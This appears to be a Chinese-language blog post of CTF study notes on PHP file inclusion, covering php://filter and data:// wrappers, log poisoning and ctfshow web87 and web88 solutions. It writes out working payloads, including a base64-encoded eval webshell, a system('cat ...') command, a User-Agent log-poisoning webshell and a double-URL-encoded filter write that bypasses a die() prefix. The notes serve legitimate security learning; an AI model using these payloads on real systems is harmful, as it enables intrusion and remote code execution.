```yaml
---
layout: post
title: 文件包含小结
category: web安全
date: 2023-8-17
---
```

远古笔记
<!-- more -->
# 文件包含

## 读取方式总结

### 直接读取

### 伪协议读取

这里我直接把写的其他地方的note拿过来

```php
php://filter/read=<1>/resource=<2>
// 此为一个数据过滤器，1处填写使用的过滤器，2中填写读取的文件。
// 例如，php://filter/read=convert.base64-encode/resource=flag.php
// 若直接包含一个php文件，可能会不显示
php://filter/write=<1>/resource=<2>
// 和上面当然是一样的，但写入的时候需要将read改为write。
data://text/plain, <内容>
//文件流，可以直接视为文件用file_get_contents等方式读取
//或者使用以下方式base64一下再读取：
data://text/plain;base64,<内容>
```

### 远程服务器包含

想想可不可以包含其他服务器的文件而不是本机？小概率事件

### 日志包含

这里写一下`apache`和`nginx`两种服务器的日志存放位置。

`nginx`日志:

```bash
/var/log/nginx/access.log
```

apache日志：

```bash
/usr/local/apache/logs/access_log
```

利用思路就是，先构造一个`User-Agent`为恶意代码的包，例如`User-Agent`为`<?php eval($_POST[1];);?>`，然后这样日志中就含有这个一句话木马。将这个日志文件包含进来即可。

### data://

`data://`是一个文件流，它可以直接看做文件的内容本身。

常见用法如下：（抄一下上面的

```php
data://text/plain, <内容>
//文件流，可以直接视为文件用file_get_contents等方式读取
//或者使用以下方式base64一下再读取：
data://text/plain;base64,<内容>
```

以ctfshow web88为例子，源码如下：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

`$file`是根据`GET`方式传递的变量，然后有一些正则，然后`include`这个变量的文件。

这里可以使用`data://`数据流，即我们直接包含我们自己构造的马。

先随便写个马，比如（但这里要注意，正则过滤`=`号，因此`base64`把末尾等号删除即可）

```php
<?php eval($_POST[1]); ?>
```

由于有过滤`php`和括号什么的，所以干脆我们将其`base64`一下。上面的一句马`base64`一下结果是：

```
PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==
```

那`payload`也很显然了，即：

```php
?file=data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg
//post:
1=system("cat fl0g.php");
```



### php://filter

用doc里面的话，`php://filter`是一种元封装器，设计用于数据流打开时的筛选过滤应用。

使用常见的情况可能是这样：(又抄了上面的

```php
php://filter/read=<1>/resource=<2>
// 此为一个数据过滤器，1处填写使用的过滤器，2中填写读取的文件。
```

`filter`的种类可以参见 [这里]([PHP: 可用过滤器列表 - Manual](https://www.php.net/manual/zh/filters.php)) 。

`filter`可以对文件流进行操作，即在即将读取/写入的操作进行之前，先将读取/写入的数据内容进行过滤器指定的操作。例如我们需要读取`flag.php`这个文件，而在读取之前，先将读取到的内容进行一下编码操作，我们就可以用`php://filter`进行数据过滤。这个编码操作就是过滤器指定的操作，`flag.php`就是即将读取的文件。

以ctfshow web87为例，讲一下`filter`的一些作用。

先看源码：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 21:57:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

首先明确一点，使用`GET`方式传入的文件名是完全可控的，原因是，在PHP中使用`GET`或者`POST`接收到的内容是都会先进行一次URL解码操作的。而在`file_put_contents`函数中又进行了一次URL解码操作，因此传入的`$file`需要进行两次URL编码，因此替换操作不会有任何影响，导致这里可控。

那么问题显而易见了，传入的`$content`当然是可控的，但前面有一个`die`，导致我们直接写入的任何php的操作没有作用。经过上面的描述，一个简易的解决方式是可以有的，即使用`php://filter`。在对`$file`文件进行写入操作之前，我们先使用一个数据过滤器对即将写入的数据进行一定处理。这里就有很多种过滤器可用了，我第一时间想到的是比较常用的`base64`编码，这里也可以用其他很多过滤器，例如编码方面还可以用`rot13`等，此处写一下`base64`的绕过方法。

众所周知，`base64`将任意`Ascii`字符转换为64个字符，即大小写字母、数字和一些特殊符号。对于即将编码的`Ascii`字符，都是8个字节，而`base64`会将他们映射到6个字节。因此若有三个字符（`3*8=24`字节）待转换，则`base64`将其映射为4个字符（同样是`4*6=24`字节）。对于传入的字符串不是3的倍数的情况，`base64`以字符`=`来进行填充到编码后的字符串。

那么在这个场景下，我们可以在将文件内容写入之前，进行一次`base64`的解码操作。`<?php die('大佬别秀了');?>`里面是有中文的，那应该算几个字节呢？经查阅后发现中文会按照不同的编码（当然同一个汉字就会有不同的二进制长度）有不同的算法。因此我们这里直接试了一下，发现在上面的死亡代码添加两个字符后，后面的字符串将是独立解密的。因此我们构造写入的内容为：

```php
content=11PD9waHAgZWNobyAyMjI7ZXZhbCgkX1BPU1RbMV0pOyA/Pg==
```

写入的文件名使用`filter`处理，即：

```php
?file=php://filter/write=convert.base64-decode/resource=1.php
```

经过两次URL编码，即：

```php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30
```

